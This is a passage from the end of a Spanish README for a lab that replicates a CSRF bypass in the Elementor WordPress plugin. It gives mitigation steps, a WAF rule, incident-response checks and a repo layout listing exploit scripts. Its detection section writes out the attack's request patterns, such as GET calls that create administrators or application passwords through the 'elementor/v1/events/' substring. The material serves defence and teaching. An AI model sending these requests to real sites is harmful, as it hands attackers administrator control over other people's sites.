| 14 | Blast radius REST | `curl :8085/wp-json/ \| grep -c methods` | 154 endpoints de escritura / 231 rutas |
| 15 | §5: la API-key-wall de WooCommerce cae | `make blast-radius` | wc/v3: 401 → **200** con la subcadena |
| 16 | Plugins del directorio wp.org por GET | `make blast-radius` | 201 instalado + 200 activo |
| 17 | Paliativa (experimento inactive) verificada | `make mitigacion-demo` | A: 201 → B: **401** → C: restaurado |
| 18 | SameSite=Lax permite el clic (navegador real) | `make demo-navegador` | Chrome + file:// + clic → **201** |
| 19 | La subcadena mágica exige forma literal | `make fuzz-subcadena` | 8/8 variantes según predicción |
| 20 | IOCs detectables en access log | `make detectar-iocs` | 4 CRIT · 2 MED · 1 INFO (exit 1) |
| 21 | El CTF es resoluble de punta a punta | `make ctf` + `ctf/SOLUCION.md` | 5/5 flags verificadas |

## Mitigación y detección (blue team)

- **Remediación real**: actualizar a **Elementor ≥ 4.3.2**. No hay
  configuración segura en 4.3.0/4.3.1 mientras el experimento esté activo.
- Paliativa temporal (sitios que no puedan actualizar ya):

  ```bash
  wp option update elementor_experiment-editor_events inactive
  ```

  **Ojo** (hallazgo §3): «bloquear REST por cookies» con un plugin de
  seguridad enganchado a `rest_authentication_errors` **no protege** contra
  este bug — el bypass silencia ese filtro con su prioridad 0. La paliativa
  efectiva sin actualizar es apagar el experimento o la regla WAF de abajo.
- **IOCs de acceso** (Apache access_log) — el bypass deja firma
  característica: la subcadena de telemetría en peticiones que **no** son de
  telemetría:

  ```text
  # creación de admin por GET (la huella del exploit canónico)
  "GET /wp-json/wp/v2/users?_method=POST&...&roles%5B%5D=administrator&...elementor/v1/events/
  # puerta silenciosa (§1): app-password por GET
  GET /wp-json/wp/v2/users/me/application-passwords?_method=POST&...elementor/v1/events/
  # escalada de cuenta dormida (§2)
  GET /wp-json/wp/v2/users/<id>?_method=POST&roles%5B%5D=administrator&...elementor/v1/events/
  # subcadena anidada en cualquier parámetro de rutas ajenas
  GET /wp-json/wp/v2/settings?q=...elementor/v1/events/
  # contra la API de WooCommerce (§5): subcadena en rutas wc/
  GET /wp-json/wc/v3/system_status?x=elementor/v1/events/
  ```

  Regla WAF asociada: bloquear peticiones cuya query string contenga
  `elementor/v1/events/` cuando el path NO empiece por
  `/wp-json/elementor/v1/events/`.
- **Respuesta a incidentes**: usuarios creados alrededor del clic
  (`wp user list --fields=ID,user_login,roles,registered_date`), **roles
  cambiados en cuentas antiguas** (§2), y —crítico— **revocar Application
  Passwords** de los administradores (§1): borrar usuarios creados NO
  expulsa al atacante si abrió puerta silenciosa. Rotar credenciales.
- En overhaul defensivo: los plugins no deberían tocar
  `rest_authentication_errors`; cualquier `return true` ahí es una señal de
  alarma para auditar (ese filtro es de autenticación, no de conveniencia).

## Estructura del repo

```
├── docker-compose.yml          # víctima :8085 · control :8086 · CTF :8087/:8089 · MySQL
├── docker/wordpress/           # Dockerfile parametrizado + entrypoint (instalación + CTF_MODE)
├── exploit/
│   ├── 01_fingerprint.sh       # FASE 1: reconocimiento pasivo
│   ├── 02_craft_link.py        # FASE 2: enlace malicioso + correo simulado (solo localhost)
│   ├── 03_click_victim.sh      # FASE 3: el clic (401 → 201 → negativo %2F)
│   ├── 04_verificar_admin.sh   # FASE 4: puerta trasera = admin real (con reintentos)
│   ├── 05_demo_root_cause.sh   # FASE 5: diff en vivo víctima vs control
│   ├── 06_aportaciones.sh      # FASE 6 (propia): §1 puerta silenciosa + §2 cuenta dormida
│   ├── 07_hardening_bypass.sh  # FASE 7 (propia): §3 hardening neutralizado
│   ├── 08_mitigacion_demo.sh   # FASE 8: paliativa verificada A/B/C
│   └── 09_blast_radius.sh      # FASE 9 (propia): plugins por GET + WooCommerce
├── cli/poc.py                  # POC unificado (check/craft/attack/verify/all)
├── ctf/                        # CTF «La Subcadena Mágica»: bot víctima + verificador + docs
├── scripts/
│   ├── esperar.sh              # espera a que WP responda
│   ├── detectar_iocs.py        # detector de IOCs (blue team, stdin)
│   └── capturas/               # galería PNG (Chrome) + demo navegador real (CDP)
├── research/
│   ├── PARCHE.md               # forense del diff 4.3.1 -> 4.3.2 (+hashes de los zips)
│   ├── HALLAZGOS.md            # aportaciones propias (§1-§8) + negativos útiles
│   ├── writeup-original.md     # fuentes públicas y qué añade este repo
│   ├── RESULTADOS.md           # evidencia real de la ejecución completa
│   └── investigacion/          # sonda, fuzzer, mu-plugin, log de ejemplo
├── docs/                       # landing didáctica + galería (GitHub Pages)
├── .github/workflows/ci.yml    # CI: full-demo + mitigación + fuzzer + IOCs en cada push
├── NOTAS.md                    # proceso, incidencias y hallazgos del lab
└── Makefile                    # un target por fase
```

## Uso responsable

| ✔ Permitido | ✘ Prohibido |
|---|---|
| Aprender cómo funciona un CSRF sobre REST API | Atacar sitios que no te pertenezcan |
| Enseñar defensa (blue team, IOCs, parches) | Crear admins en sitios ajenos |
| Ejecutar este lab **en localhost** | Publicar datos de terceros |
| Verificar que tu propio sitio está parcheado (≥ 4.3.2) | Usar el POC fuera de tu laboratorio |

Fricción técnica deliberada: `cli/poc.py` **se niega a operar contra hosts
que no sean locales** (solo http/https y localhost/127.0.0.1/::1) y las
fases invasivas exigen `--acepta-responsabilidad`. Todo corre en contenedores
Docker locales desechables.

## Créditos

- **Descubrimiento**: investigador **Saggre**, reportado vía **Patchstack**
  (2026-09-22); parche de Elementor 4.3.2 (2026-09-24); advisory público
  (2026-09-25).
- **Fuentes**: [Patchstack — Cross-Site Request Forgery in Elementor Plugin
  Affecting 2 Million Sites](https://patchstack.com/articles/cross-site-request-forgery-in-elementor-plugin-affecting-2-million-sites) ·
  [elhacker.net — Vulnerabilidad en Elementor](https://blog.elhacker.net/2026/09/vulnerabilidad-en-elementor-para.html) ·
  [BleepingComputer](https://www.bleepingcomputer.com/news/security/elementor-wordpress-flaw-lets-attackers-create-admin-accounts)
- Este repo: réplica verificable, control negativo de una variable, análisis
  forense del parche y **tres aportaciones propias** (puerta silenciosa,
  cuenta dormida, hardening neutralizado — ver
  [`research/HALLAZGOS.md`](research/HALLAZGOS.md)). El vector canónico de
  ataque no es un descubrimiento propio; ver
  [`research/writeup-original.md`](research/writeup-original.md).

## Aviso de responsabilidad

Distribuido "tal cual" con fines educativos y de investigación defensiva.
El autor no se hace responsable del mal uso. Probar vulnerabilidades contra
sistemas sin autorización explícita es ilegal.

## Licencia

[MIT](LICENSE) — 686f6c61, 2026.
